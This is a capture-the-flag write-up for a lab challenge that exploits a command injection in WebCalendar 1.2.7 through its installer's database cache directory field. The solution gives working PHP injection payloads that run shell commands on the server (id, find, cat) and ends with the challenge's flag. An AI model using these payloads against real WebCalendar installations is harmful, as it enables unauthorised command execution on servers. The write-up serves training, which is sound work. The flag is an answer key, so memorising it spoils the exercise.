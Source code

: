 # Web Application III (300 pts)

## Description

An attacker might get administrative access to a web application. However, this does not automatically mean that the web server can be compromised. In cases where a SaaS application is made available to users, it is routine to give each user admin access to his own instance of the web application e.g. a managed hosted Wordpress site. In such a scenario, the attacker who will begin accessing the application as a managed administrative user will have to figure out how to exploit the administrative interface to get a shell on the server. In some cases, it might be possible to do privilege escalation as well.

In the exercise below, the attacker has administrative access to the web application and needs to find a command injection attack to run arbitrary commands on the server.

A version of WebCalendar is vulnerable to a command injection attack.

The following password may be used to explore the application and/or find a vulnerability which might require authenticated access:

| Password |
|----------|
| password |

**Objective**: Your task is to find and exploit this vulnerability.

## Solution

### Context

From the description we know that the web application that we are dealing with is **WebCalendar** and that we are using a particular version that is vulnerable to a command injection attack.

Goint into the web application we can find out the version of it by navigating to ```Search --> About WebCalendar```

![image of version](res/version.png)

As we can see the version number is `1.2.7` with this information we can figure out what vulnerabilites are known for this version of this app.

From [exploit.db](https://www.exploit-db.com/exploits/40057) we can see that indeed this version is vulnerable to command injection attacks and there is a proof of concept that we can base our exploit upon.

### Execution

1. Navigate to `/installs/index.php` and login with the credentials given.

![login screen](res/logging_in.png)

2. Navigate to the second page and type in the following in the _Database Cache Directory_ field

```
/tmp */?> <?php echo `id`; ?> <?php/*
```

3. We can view the output of the command execution by navigating to `/includes/settings.php`

![output](res/output.png)

4. This shows that our command injection actually works and we can proceed to find the flag by now inserting the following into the _Database Cache Directory_ field

```
/tmp */?> <?php echo `find / -name flag`; ?> <?php/*
```

5. Doing so will return us the location of the flag --> `/tmp/flag`

6. To read the flag file we can insert the following into the _Database Cache Directory_ field

```
/tmp */?> <?php echo `cat /tmp/flag`; ?> <?php/*
```
## Flag

```
86f1d2cd0ff916575562da9eebba802b
```
